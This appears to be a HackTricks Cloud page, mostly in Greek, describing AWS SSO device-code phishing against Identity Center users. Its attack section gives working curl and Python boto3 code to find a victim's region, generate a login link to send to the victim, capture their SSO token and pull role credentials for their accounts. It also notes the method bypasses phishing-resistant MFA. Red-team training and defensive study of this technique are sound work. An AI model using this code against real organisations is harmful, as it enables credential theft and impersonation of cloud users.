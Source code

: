 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Αρχικά προτάθηκε σε [**αυτή την ανάρτηση στο blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), είναι δυνατόν να σταλεί ένα **σύνδεσμος** σε έναν χρήστη που χρησιμοποιεί AWS SSO, που αν **ο χρήστης αποδεχτεί** ο επιτιθέμενος θα μπορέσει να αποκτήσει ένα **token για να προσποιηθεί τον χρήστη** και να έχει πρόσβαση σε όλους τους ρόλους που μπορεί να έχει πρόσβαση ο χρήστης στο **Identity Center**.

Για να εκτελέσει αυτή την επίθεση, οι απαιτήσεις είναι:

* Το θύμα πρέπει να χρησιμοποιεί το **Identity Center**
* Ο επιτιθέμενος πρέπει να γνωρίζει το **subdomain** που χρησιμοποιεί το θύμα `<victimsub>.awsapps.com/start`

Μόνο με τις προηγούμενες πληροφορίες, ο **επιτιθέμενος θα είναι σε θέση να στείλει έναν σύνδεσμο στον χρήστη** που αν **αποδεχτεί** θα παραχωρήσει στον **επιτιθέμενο πρόσβαση στον λογαριασμό του χρήστη AWS**.

### Attack

1. **Finding the subdomain**

Το πρώτο βήμα του επιτιθέμενου είναι να ανακαλύψει το subdomain που χρησιμοποιεί η εταιρεία του θύματος στο Identity Center τους. Αυτό μπορεί να γίνει μέσω **OSINT** ή **μαντεψιάς + BF** καθώς οι περισσότερες εταιρείες θα χρησιμοποιούν το όνομά τους ή μια παραλλαγή του ονόματός τους εδώ.

Με αυτές τις πληροφορίες, είναι δυνατόν να αποκτηθεί η περιοχή όπου έχει ρυθμιστεί το Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Δημιουργήστε τον σύνδεσμο για το θύμα & Στείλτε τον**

Εκτελέστε τον παρακάτω κώδικα για να δημιουργήσετε έναν σύνδεσμο σύνδεσης AWS SSO ώστε το θύμα να μπορεί να αυθεντικοποιηθεί.\
Για την επίδειξη, εκτελέστε αυτόν τον κώδικα σε μια κονσόλα python και μην την κλείσετε καθώς αργότερα θα χρειαστείτε κάποια αντικείμενα για να αποκτήσετε το token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Στείλτε τον παραγόμενο σύνδεσμο στο θύμα χρησιμοποιώντας τις καταπληκτικές σας ικανότητες κοινωνικής μηχανικής!

3. **Περιμένετε μέχρι το θύμα να το αποδεχτεί**

Αν το θύμα ήταν **ήδη συνδεδεμένο στο AWS**, θα χρειαστεί απλώς να αποδεχτεί την παροχή των δικαιωμάτων, αν δεν ήταν, θα χρειαστεί να **συνδεθεί και στη συνέχεια να αποδεχτεί την παροχή των δικαιωμάτων**.\
Αυτή είναι η εμφάνιση του προτροπής σήμερα:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Αποκτήστε το SSO access token**

Αν το θύμα αποδέχτηκε την προτροπή, εκτελέστε αυτόν τον κώδικα για να **δημιουργήσετε ένα SSO token προσποιούμενοι τον χρήστη**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Το διακριτικό πρόσβασης SSO είναι **έγκυρο για 8 ώρες**.

5. **Προσωποποιήστε τον χρήστη**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Είναι διασκεδαστικό να γνωρίζουμε ότι η προηγούμενη επίθεση **λειτουργεί ακόμη και αν χρησιμοποιείται ένα "unphisable MFA" (webAuth)**. Αυτό συμβαίνει επειδή η προηγούμενη **ροή εργασίας δεν αφήνει το χρησιμοποιούμενο OAuth domain**. Όχι όπως σε άλλες επιθέσεις phishing όπου ο χρήστης πρέπει να αντικαταστήσει το domain σύνδεσης, στην περίπτωση που η ροή κωδικού συσκευής είναι προετοιμασμένη έτσι ώστε ένας **κωδικός να είναι γνωστός από μια συσκευή** και ο χρήστης μπορεί να συνδεθεί ακόμη και σε διαφορετική μηχανή. Εάν γίνει αποδεκτή η προτροπή, η συσκευή, απλά γνωρίζοντας τον αρχικό κωδικό, θα είναι σε θέση να **ανακτήσει διαπιστευτήρια** για τον χρήστη.

Για περισσότερες πληροφορίες σχετικά με αυτό [**δείτε αυτή την ανάρτηση**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
